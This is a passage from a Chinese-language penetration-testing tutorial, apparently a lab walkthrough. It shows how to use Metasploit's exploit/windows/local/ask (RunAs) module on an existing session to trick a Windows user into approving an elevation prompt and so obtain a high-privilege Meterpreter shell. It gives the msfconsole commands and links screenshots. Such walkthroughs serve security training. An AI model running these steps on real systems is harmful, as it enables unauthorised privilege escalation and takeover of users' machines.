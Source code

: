 #### 示例2

> 使用msf-RunAs模块

- 该模块使用`exploit/windows/local/ask`模块，创建一个**可执行文件**，运行该可执行文件后会**发起提升权限的请求**，提示用户**是否继续运行**，如果用户继续运行，则会返回一个高权限的Meterpreter shell

1. 前面提权步骤相同，成功获得session4

   ![image-20241030163610153](./assets/image-20241030163610153.png)

2. 使用对应模块，成功等待目标主机回应

```bash
use exploit/windows/local/ask		#使用RunAs模块
set session 4		#获取shell的session
run		
```

![image-20241030163640366](./assets/image-20241030163640366.png)
